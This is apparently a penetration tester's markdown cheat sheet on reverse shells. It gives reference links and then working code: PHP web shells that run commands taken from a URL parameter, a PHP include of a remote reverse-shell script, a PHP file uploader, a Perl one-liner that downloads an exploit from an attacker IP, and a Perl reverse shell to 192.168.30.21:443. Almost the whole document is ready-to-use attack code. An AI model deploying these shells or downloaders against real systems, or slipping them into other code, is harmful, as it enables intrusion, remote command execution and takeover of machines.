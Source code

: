 # Reverse Shells
#hacking #reverse #shells

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
[Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
[lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
 [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
http://pentestmonkey.net/blog/post-exploitation-without-a-tty

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
